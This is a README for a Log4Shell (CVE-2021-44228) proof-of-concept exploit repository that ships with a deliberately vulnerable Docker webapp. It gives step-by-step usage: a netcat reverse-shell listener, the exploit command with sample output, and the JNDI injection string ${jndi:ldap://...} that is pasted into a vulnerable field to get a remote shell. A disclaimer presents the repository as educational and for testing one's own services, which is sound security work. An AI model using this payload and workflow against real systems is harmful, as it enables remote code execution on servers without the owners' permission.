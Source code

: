 # log4j-shell-poc

A Proof-Of-Concept for the recently found CVE-2021-44228 vulnerability. <br><br>
Recently there was a new vulnerability in log4j, a java logging library that is very widely used in the likes of elasticsearch, minecraft and numerous others.

In this repository we have made and example vulnerable application and proof-of-concept (POC) exploit of it.

#### Install Requirements:
```bash
pip install -r requirements.txt
```

#### Usage:
* Start a netcat listener to accept reverse shell connection.<br>
```sh
nc -lvnp 9001
```

* Launch the exploit.<br>
**Note:** For this to work, the extracted java archive has to be named: `java-8-openjdk-amd64`, and be in the same directory.
```py
$ python3 poc.py --userip localhost --webport 8000 --lport 9001

[!] CVE: CVE-2021-44228
[!] Forked from Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up fake LDAP server

[+] Send me: ${jndi:ldap://localhost:1389/a}

Listening on 0.0.0.0:1389
```

This script will setup the HTTP server and the LDAP server for you, and it will also create the payload that you can use to paste into the vulnerable parameter. After this, if everything went well, you should get a shell on the lport.

<br>


Our vulnerable application
--------------------------

A Dockerfile has been added with the vulnerable webapp.

We can run the application using the following steps:

```shell
1: docker build -t log4j-vulnerable-application .
2: docker run --network host log4j-vulnerable-application
```
Once it is running, you can access it on localhost:8080

<br>

Getting the Java version.
--------------------------------------

We can install the required Java version using the below command.
```shell
apt install -y openjdk-8-jdk
```

Java versision installed will be
```shell
openjdk version "1.8.0_342"
OpenJDK Runtime Environment (build 1.8.0_342-8u342-b07-0ubuntu1~20.04-b07)
OpenJDK 64-Bit Server VM (build 25.342-b07, mixed mode)
```

Disclaimer
----------
This repository is not intended to be a one-click exploit to CVE-2021-44228. The purpose of this project is to help people learn about this awesome vulnerability, and perhaps test their own applications (however there are better applications for this purpose, ei: [https://log4shell.tools/](https://log4shell.tools/)).

Our team will not aid, or endorse any use of this exploit for malicious activity, thus if you ask for help you may be required to provide us with proof that you either own the target service or you have permissions to pentest on it.


